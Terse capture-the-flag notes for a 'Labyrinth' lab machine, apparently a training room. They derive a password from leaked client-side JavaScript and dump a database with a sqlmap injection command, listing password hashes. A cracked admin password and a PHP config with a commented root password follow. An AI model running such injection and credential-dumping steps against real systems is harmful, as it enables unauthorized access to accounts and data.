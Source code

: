 # Labyrinth 

> VOiD | Saturday 06 November 2021 12:41:46 AM IST

My IP : 10.8.253.221
Target IP : 


```bash
cat message.txt     
Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur

Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur

```

view-source:http://10.10.13.165/js/login.js

function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus=a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]


Daedalus g2e55kh4ck5r


```bash
sqlmap -r req1 --batch -dbs -D labyrinth  --dump
+----------+--------------+----------------------------------+------------------+
| idPeople | namePeople   | passwordPeople                   | permissionPeople |
+----------+--------------+----------------------------------+------------------+
| 1        | Eurycliedes  | 42354020b68c7ed28dcdeabd5a2baf8e | user             |
| 2        | Menekrates   | 0b3bebe266a81fbfaa79db1604c4e67f | user             |
| 3        | Philostratos | b83f966a6f5a9cff9c6e1c52b0aa635b | user             |
| 4        | Daedalus     | b8e4c23686a3a12476ad7779e35f5eb6 | user             |
| 5        | M!n0taur     | 1765db9457f496a39859209ee81fbda4 | admin            |
+----------+--------------+----------------------------------+------------------+


+------------+--------------+----------------------------------+--------------------+
| idCreature | nameCreature | passwordCreature                 | permissionCreature |
+------------+--------------+----------------------------------+--------------------+
| 1          | Cerberos     | 3898e56bf6fa6ddfc3c0977c514a65a8 | user               |
| 2          | Pegasus      | 5d20441c392b68c61592b2159990abfe | user               |
| 3          | Chiron       | f847149233ae29ec0e1fcf052930c044 | user               |
| 4          | Centaurus    | ea5540126c33fe653bf56e7a686b1770 | user               |
+------------+--------------+----------------------------------+--------------------+
```



M!n0taur : aminotauro

?php $servername = "localhost"; $db = "labyrinth"; $usr = "root"; $pwd = ""; //$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb"; try { $conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd); $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION); } catch (PDOException $e) { die(); } ?>
